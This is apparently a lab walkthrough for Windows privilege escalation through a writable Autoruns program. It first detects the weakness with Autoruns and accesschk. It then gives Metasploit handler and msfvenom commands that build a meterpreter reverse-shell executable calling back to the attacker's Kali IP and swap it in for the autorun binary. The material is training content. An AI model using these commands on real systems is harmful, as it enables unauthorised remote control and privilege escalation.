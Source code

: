 **Detection**

Windows VM

1. Open command prompt and type: `C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe`
2. In Autoruns, click on the "Logon" tab.
3. From the listed results, notice that the `My Program` entry is pointing to `C:\Program Files\Autorun Program\program.exe`.
4. In command prompt type: `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"`
5. From the output, notice that the "Everyone" user group has "FILE_ALL_ACCESS" permission on the "program.exe" file.


**Exploitation**

Kali VM

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: `use multi/handler`
3. In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp`
4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
5. In Metasploit (msf > prompt) type: `run`
6. Open an additional command prompt and type: `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe`
7. Copy the generated file, program.exe, to the Windows VM.

Windows VM

1. Place program.exe in `C:\Program Files\Autorun Program`.
2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

Kali VM

1. Wait for a new session to open in Metasploit.
2. In Metasploit (msf > prompt) type: `sessions -i [Session ID]`
3. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: `getuid`

## #3.1 - Click 'Completed' once you have successfully elevated the machine

**Detection**

Let's open Autoruns, and click on the "Logon" tab. We notice that "my program" is automatically started at logon:
